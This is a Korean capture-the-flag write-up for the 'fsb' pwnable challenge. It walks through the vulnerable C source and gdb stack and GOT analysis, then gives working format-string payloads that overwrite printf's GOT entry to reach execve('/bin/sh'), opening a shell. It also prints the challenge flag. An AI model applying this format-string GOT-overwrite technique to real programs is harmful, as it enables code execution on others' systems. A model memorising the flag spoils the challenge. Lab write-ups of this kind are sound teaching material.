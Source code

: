 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-09-01-56-59.png)


# **Write-Up**

바이너리의 정보를 확인하자.

```sh
fsb@pwnable:~$ checksec fsb
[*] '/home/fsb/fsb'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

fsb.c의 소스를 확인하자.

```cpp
#include <stdio.h>
#include <alloca.h>
#include <fcntl.h>

unsigned long long key;
char buf[100];
char buf2[100];

int fsb(char** argv, char** envp){
        char* args[]={"/bin/sh", 0};
        int i;

        char*** pargv = &argv;
        char*** penvp = &envp;
        char** arg;
        char* c;
        for(arg=argv;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        for(arg=envp;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        *pargv=0;
        *penvp=0;

        for(i=0; i<4; i++){
                printf("Give me some format strings(%d)\n", i+1);
                read(0, buf, 100);
                printf(buf);
        }

        printf("Wait a sec...\n");
        sleep(3);

        printf("key : \n");
        read(0, buf2, 100);
        unsigned long long pw = strtoull(buf2, 0, 10);
        if(pw == key){
                printf("Congratz!\n");
                execve(args[0], args, 0);
                return 0;
        }

        printf("Incorrect key \n");
        return 0;
}

int main(int argc, char* argv[], char** envp){

        int fd = open("/dev/urandom", O_RDONLY);
        if( fd==-1 || read(fd, &key, 8) != 8 ){
                printf("Error, tell admin\n");
                return 0;
        }
        close(fd);

        alloca(0x12345 & key);

        fsb(argv, envp); // exploit this format string bug!
        return 0;
}
```

fsb(format string bug)라는 이름에 맞게 fsb에 취약한 부분이 존재한다.

```cpp
... 생략 ...
printf(buf);
... 생략 ...
```

취약한 부분에서의 스택을 살펴보기 위해 gdb를 실행하자.

```sh
fsb@pwnable:~$ gdb -q fsb
Reading symbols from fsb...(no debugging symbols found)...done.
```

취약한 부분의 주소를 보면, 0x08048610임을 알 수 있다. No PIE이기 때문에 주소는 바뀌지 않는다.

```sh
(gdb) info func
All defined functions:
... 생략 ...
   0x08048603 <+207>:   call   0x80483e0 <read@plt>
   0x08048608 <+212>:   mov    $0x804a100,%eax
   0x0804860d <+217>:   mov    %eax,(%esp)
   0x08048610 <+220>:   call   0x80483f0 <printf@plt>
   0x08048615 <+225>:   addl   $0x1,-0x1c(%ebp)
   0x08048619 <+229>:   cmpl   $0x3,-0x1c(%ebp)
... 생략 ...
```

브레이크 포인트를 걸고 run하자.

```sh
(gdb) b *0x08048610
Breakpoint 1 at 0x8048610
(gdb) r
Starting program: /home/fsb/fsb
Give me some format strings(1)
123

Breakpoint 1, 0x08048610 in fsb ()
```

esp부터 100byte정도 스택을 확인해보자.

```sh
(gdb) x/25x $esp
0xffd6daf0:     0x0804a100      0x0804a100      0x00000064      0x00000000
0xffd6db00:     0x00000000      0x00000000      0x00000000      0x00000000
0xffd6db10:     0x00000000      0x08048870      0x00000000      0x00000000
0xffd6db20:     0xffd7de88      0xffd7efe9      0xffd6db40      0xffd6db44
0xffd6db30:     0x00000000      0x00000000      0xffd7dd88      0x08048791
0xffd6db40:     0x00000000      0x00000000      0x00000000      0x00000000
0xffd6db50:     0x00000000
```

스택에 몇개의 주소가 쓰여져 있다. 이 중 빈 값이 있는 것을 찾아보면 0xffd6db40 0xffd6db44 있다.

```sh
(gdb) x/5x 0xffd7de88
0xffd7de88:     0x00000000      0x00000020      0xf7758b50      0x00000021
0xffd7de98:     0xf7758000
(gdb) x/5x 0xffd7efe9
0xffd7efe9:     0x6f682f00      0x662f656d      0x662f6273      0x00006273
0xffd7eff9:     0x00000000
(gdb) x/5x 0xffd6db40
0xffd6db40:     0x00000000      0x00000000      0x00000000      0x00000000
0xffd6db50:     0x00000000
```

print@got을 execve함수를 호출하는 주소로 overwrite하기 위해서 print@got의 주소를 알아내자.

```sh
(gdb) x/i 0x80483f0
   0x80483f0 <printf@plt>:      jmp    *0x804a004
```

execve함수를 호출하는 주소를 알아내자.

```sh
... 생략 ...
   0x080486a6 <+370>:   call   0x8048410 <puts@plt>
   0x080486ab <+375>:   mov    -0x24(%ebp),%eax
   0x080486ae <+378>:   movl   $0x0,0x8(%esp)
   0x080486b6 <+386>:   lea    -0x24(%ebp),%edx
   0x080486b9 <+389>:   mov    %edx,0x4(%esp)
   0x080486bd <+393>:   mov    %eax,(%esp)
   0x080486c0 <+396>:   call   0x8048450 <execve@plt>
... 생략 ...
```

print에 의해서 나오는 스택은 esp + 4임을 알 수 있다.

```sh
fsb@pwnable:~$ ./fsb
Give me some format strings(1)
%08x %08x %08x
0804a100 00000064 00000000
```

첫 번째 format strings를 입력받는 곳에는 0x804a004의 10진수 값인 134520836과 esp + 4에서 0xffd6db28 거리인 14를 조합해서 넣어주자.

```sh
fsb@pwnable:~$ ./fsb
Give me some format strings(1)
%134520836d%14$n
... 생략 ...
```

두 번째 format strings를 입력받는 곳에는 0x080486ab의 10진수 값인 134514347과 esp + 4에서 0xffd6db40까지의 거리인 20를 조합해서 넣어주자.

```sh
Give me some format strings(2)
%134514347d%20$n
... 생략 ...
```

10진수 값 만큼 print가 된 이후 execve와 "/bin/sh"에 의해서 shell을 획득하고 flag를 획득할 수 있다.

```sh
$ id
uid=1046(fsb) gid=1046(fsb) egid=1047(fsb_pwn) groups=1047(fsb_pwn),1046(fsb)
$ cat flag
Have you ever saw an example of utilizing [n] format character?? :(
```


# **FLAG**

**Have you ever saw an example of utilizing [n] format character?? :(**